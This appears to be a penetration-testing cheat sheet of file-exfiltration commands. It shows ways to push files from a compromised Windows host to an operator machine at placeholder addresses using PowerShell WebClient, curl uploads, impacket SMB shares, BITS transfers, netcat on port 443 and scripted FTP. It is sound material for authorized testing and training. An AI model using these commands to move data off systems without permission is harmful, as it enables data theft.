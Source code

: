 USING POWERSHELL -
------------------------------------------------------------------------------------------------------------------

#### 

**Web Content Upload**
    
    $webClient.UploadFile('http://{REMOTE-IP}/demo.txt', 'PUT', 'C:\temp\demo.txt')

**Web Content Upload**
    
    powershell.exe -c "curl.exe -T C:\temp\demo.txt http://{REMOTE-IP}/demo.txt"

**Web Content Upload**
    
    Start-Process -FilePath "curl.exe" -ArgumentList "-T 'C:\temp\demo.txt' http://{REMOTE-IP}/demo.txt" -NoNewWindow -Wait
------------------------------------------------------------------------------------------------------------------

</br>

USING CMD - 
------------------------------------------------------------------------------------------------------------------

**Using PUT Method**
    
    powershell.exe -c "$webClient = New-Object System.Net.WebClient; $webClient.UploadFile('http://{REMOTE-IP}/demo.txt', 'PUT', 'C:\temp\demo.txt')"   

**Using POST Method**

    powershell.exe -c "$webClient = New-Object System.Net.WebClient; $webClient.UploadFile('http://{REMOTE-IP}/demo.txt','C:\temp\demo.txt')"
------------------------------------------------------------------------------------------------------------------

</br>

USING SMB - 
------------------------------------------------------------------------------------------------------------------

**SMB SERVER -**

**Start normal SMB Server**
    
    impacket-smbserver share .

**If version error**
    
    impacket-smbserver -smb2support share .

**Use authenticated servers if file transfer is long**

    impacket-smbserver share -username user -password pass . -smb2support


**SMB CLIENT -**

**To create authenticated session**

    net use \\{LOCAL-IP} /u:"user" "pass"

**Web Content Upload**
    
    copy \users\public\demo.txt \\{LOCAL-IP}\share\
------------------------------------------------------------------------------------------------------------------

</br>

USING SSH - 
------------------------------------------------------------------------------------------------------------------

**SCP-**

**Copy a file from Remote PC to Local PC**
    
    scp user@{REMOTE-IP}:/users/public/demo.txt /tmp/

**Copy a directory from Remote PC to Local PC**

    scp -r user@{REMOTE-IP}:/users/public/demo/ /tmp/
    
**Copy a directory from Remote to Local with RSA key**

    scp -i id_rsa -r user@{REMOTE-IP}:/users/public/demo/ /tmp/
    
**RSYNC-**

**Copy a file from Remote PC to Local PC**
    
    rsync -av user@{REMOTE-IP}:/users/public/demo.txt /tmp/

**Copy a directory from Remote PC to Local PC**

    rsync -r user@{REMOTE-IP}:/users/public/demo/ /tmp/
    
**Copy a directory from Remote to Local with RSA key**

    rsync -av --port 22 -e 'ssh -i id_rsa' -r user@{REMOTE-IP}:/users/public/demo/ /tmp/

------------------------------------------------------------------------------------------------------------------

</br>

USING WinRM - 
------------------------------------------------------------------------------------------------------------------

**Web Content Upload**
    
    download demo.txt
------------------------------------------------------------------------------------------------------------------

</br>

USING BITSADMIN - 
------------------------------------------------------------------------------------------------------------------

**Upload a single file from Remote PC to Local PC**
    
    powershell.exe -c "Import-Module BitsTransfer; Start-BitsTransfer -Source '\users\public\demo.txt' -Destination 'http://{LOCAL-IP}/demo.txt' -TransferType Upload"

**Upload multiple files from Remote PC to Local PC**
    
    powershell.exe -c "Import-Module BitsTransfer; Start-BitsTransfer -Source 'c:\users\public\demo1.txt', 'c:\users\public\demo2.txt' -Destination 'http://{LOCAL-IP}/demo1.txt', 'http://{LOCAL-IP}/demo2.txt' -TransferType Upload"

**Transfer single file from one directory to another directory**
    
    powershell.exe -c "Import-Module BitsTransfer; Start-BitsTransfer -Source '\users\public\demo.txt' -Destination '\users\public\' -TransferType Upload"
------------------------------------------------------------------------------------------------------------------

</br>

USING NC / NETCAT - 
------------------------------------------------------------------------------------------------------------------

**Run NC Server on Local PC**
    
    nc.exe -nlvp 443 > demo.txt

**Run NC Client on Remote PC**
    
    nc -v {LOCAL-IP} 443 < demo.txt
                OR
    type demo.txt | nc.exe -v {LOCAL-IP} 443
------------------------------------------------------------------------------------------------------------------

</br>

USING FTP - 
------------------------------------------------------------------------------------------------------------------

**File Upload**

Replace "demo.txt" with desired file name
    
    echo open {LOCAL-IP} 21 > file.txt
    echo bin>> file.txt
    echo put demo.txt>> file.txt
    echo bye>> file.txt

    ftp -A -v -n -s:file.txt

**One Liner**

    echo open {LOCAL-IP} 21 > file.txt && echo bin>> file.txt && echo put demo.txt>> file.txt && echo bye>> file.txt && ftp -A -v -n -s:file.txt

**Mannualy -**

    ftp
    open {LOCAL-IP} 2121
    put demo.txt

**FTP Authenticated**

Replace "demo.txt" with desired file name
    
    echo open {LOCAL-IP} 21 > file.txt
    echo user test>> file.txt
    echo test>> file.txt
    echo bin>> file.txt
    echo put demo.txt>> file.txt
    echo bye>> file.txt

    ftp -v -n -s:file.txt

**Mannualy -**

    ftp
    open {LOCAL-IP} 2121
    put demo.txt
------------------------------------------------------------------------------------------------------------------
